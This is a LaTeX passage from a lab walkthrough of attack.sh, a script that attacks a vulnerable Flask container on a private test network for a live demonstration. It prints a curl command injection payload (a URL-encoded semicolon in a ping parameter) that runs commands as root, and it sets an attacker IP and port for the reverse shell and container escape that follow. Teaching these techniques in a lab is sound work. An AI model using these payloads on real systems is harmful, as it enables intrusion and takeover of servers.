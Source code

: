 
\section{attack.sh --- Full Walkthrough}

\texttt{attack.sh} runs on VM2. It drives each phase of the attack chain in sequence, pausing between steps so the operator can observe results and control pacing during a live demonstration. It does not fully automate post-exploitation; the escape itself requires manual commands inside the reverse shell.

At the top of the script, four variables must be set before execution:

\begin{lstlisting}[language=bash]
VICTIM_IP="192.168.98.4"
ATTACKER_IP="192.168.98.5"
PORT=4444
TARGET="http://${VICTIM_IP}:5000"
\end{lstlisting}

The \texttt{pause()} function calls \texttt{read -r} and blocks until the operator presses Enter, giving control over when each phase fires. This is the only interactivity in the script.

\subsection{RCE Confirmation via curl}

The first block confirms that remote code execution is available before attempting the reverse shell:

\begin{lstlisting}[language=bash]
RESPONSE=$(curl -s --max-time 10 \
    "${TARGET}/ping?host=8.8.8.8%3Bid")
echo "$RESPONSE" | grep -q "uid=0" || exit 1
\end{lstlisting}

\texttt{\%3B} is the URL-encoded form of the semicolon character. The Flask server decodes it before the value reaches \texttt{os.popen()}, which passes the result to \texttt{/bin/sh -c}. The shell interprets the semicolon as a command separator, executing \texttt{ping -c 3 8.8.8.8} and then \texttt{id}. Because the Flask process runs as root inside the container, \texttt{id} returns a line containing \texttt{uid=0}.

\texttt{--max-time 10} prevents the \texttt{curl} call from hanging indefinitely if the victim is unreachable. \texttt{grep -q "uid=0"} performs a silent match; if the string is absent the script exits with a non-zero code rather than proceeding to the reverse shell phase with a broken assumption.

